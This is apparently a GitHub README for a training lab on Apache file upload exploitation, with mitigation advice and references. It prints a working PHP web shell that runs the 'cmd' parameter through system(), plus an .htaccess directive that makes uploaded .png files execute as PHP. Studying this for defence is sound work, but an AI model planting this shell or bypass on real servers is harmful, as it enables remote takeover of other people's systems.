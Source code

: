 # 🛡️ File Upload Exploitation – Apache .htaccess Bypass

[![Lab Type](https://img.shields.io/badge/Lab-Web_Exploit-blue)](https://github.com/) 
[![Severity](https://img.shields.io/badge/Severity-High-red)](https://github.com/) 
[![RCE](https://img.shields.io/badge/RCE-Confirmed-brightgreen)](https://github.com/) 
[![PHP](https://img.shields.io/badge/Language-PHP-purple)](https://www.php.net/) 
[![Apache](https://img.shields.io/badge/Server-Apache-orange)](https://httpd.apache.org/) 
[![File Upload](https://img.shields.io/badge/Feature-File_Upload-yellow)](https://github.com/)  

---

## 📑 Table of Contents

1. [Overview](#overview)  
2. [Objective](#objective)  
3. [Vulnerability Description](#vulnerability-description)  
4. [Exploitation Steps](#exploitation-steps)  
5. [Proof of Concept](#proof-of-concept)  
6. [Mitigation](#mitigation)  
7. [References](#references)  

---

## Overview

This lab demonstrates a **file upload vulnerability** in a simulated web application. By exploiting weak validation, we are able to achieve **Remote Code Execution (RCE)** on an Apache server using an `.htaccess` bypass technique.

---

## Objective

- Understand file upload vulnerabilities  
- Learn how `.htaccess` can be abused to execute uploaded files  
- Practice safe exploitation in a controlled environment  

---

## Vulnerability Description

File upload functionality is often a critical entry point for attackers. 

In this lab:

- The web application **fails to properly validate file types**  
- Apache `.htaccess` files are **not restricted**, allowing uploaded files to execute as PHP scripts  
- This allows attackers to execute arbitrary code on the server  

---

## Exploitation Steps

1. Prepare the exploit files:  
   - `exploit.php` — the malicious PHP web shell  
   - `blank.png` — a harmless-looking image file to bypass file type restrictions  
2. Upload `blank.png` to test the upload functionality  
3. Upload `exploit.php` disguised as an allowed file  
4. Upload an `.htaccess` file to enforce PHP execution on disguised uploads:  

```apache
AddType application/x-httpd-php .png
````

5. Access the uploaded `exploit.php` via the browser to execute commands

---

## Proof of Concept

**exploit.php**:

```php
<?php
// Simple PHP web shell example
if(isset($_GET['cmd'])){
    system($_GET['cmd']);
}
?>
```

Test the exploit:

```
docker run -d -p 8080:80 -v /path/to/uploads:/var/www/html php:8.2-apache
```

---

## Mitigation

* **Validate uploaded files**: restrict by MIME type and file extension
* **Rename uploaded files** and store outside web root
* **Disable `.htaccess` overrides** where not required
* **Use least privilege permissions** for upload directories

---

## References

* [PHP Official Documentation](https://www.php.net/)
* [Apache HTTP Server Documentation](https://httpd.apache.org/)
* [OWASP File Upload Cheat Sheet](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)

```
